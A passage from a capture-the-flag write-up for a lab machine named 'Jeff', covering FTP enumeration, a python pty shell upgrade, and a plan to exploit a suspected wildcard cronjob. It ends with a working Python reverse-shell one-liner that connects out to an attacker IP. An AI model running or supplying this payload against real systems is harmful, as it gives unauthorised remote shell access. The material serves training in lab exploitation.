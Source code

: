 ```
* Connect data stream actively
> TYPE A
< 200 Switching to ASCII mode.
> LIST
< 150 Here comes the directory listing.
* Maxdownload = -1
* Preparing for accepting server on data port
* Checking for server connect
* Ready to accept data connection from server
* Connection accepted from server
{ [63 bytes data]
* Remembering we are in dir ""
< 226 Directory send OK.
* Connection #0 to host 172.20.0.1 left intact
drwxr-xr-x    2 1001     1001         4096 May 18  2020 files
```

Later, with the help of linpeas, I found out that in the `/usr/lib/` folder there is `python3.7/` folder. This could make my life a lot easier.

```
$ cd /usr/lib/python3.7
$ python3.7 --version
Python 3.7.3
$ python3.7 -c 'import pty; pty.spawn("/bin/bash");'
www-data@Jeff:/usr/lib/python3.7$ ls -l
www-data@Jeff:/usr/lib/python3.7$ export PATH=/usr/lib/python3.7:$PATH
```
I could use python to interact with webserver. First of all, I checked if I have write permission on the server and the answare is YES. 

At this point I was stuck, so I searched for help on internet and I found this [hint](https://marcorei7.wordpress.com/2021/03/02/111-jeff/). It looks just like another person who, like me, got stuck and looked for help on the internet :').

*As per usual I wanted to upload a reverse shell to gain further access. But here I had no possibility to execute it directly. I spend a ton of time to find more out but I was stuck. The only hint I got here was, that there should be a hidden cronjob running at the other end. And it made so much sense and because I didn’t know, what to upload or how to name it, I assumed that it was a wildcard cronjob picking every file up. For the wildcard injection I once again used this awesome post on [hackingarticles](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) and created a Python script to do the work for me.*

Anyway, I didn't read further to avoid spoiling the whole solution and I assumed that there was a cronjob running on the other machine (though I would like to understand how I was supposed to understand this). I wrote a simple bash script to start a reverse shell and I downloaded it on victim machine via `curl` command and uploaded it to ftp server via using `python` and `ftlib`.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.15.73",4545));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
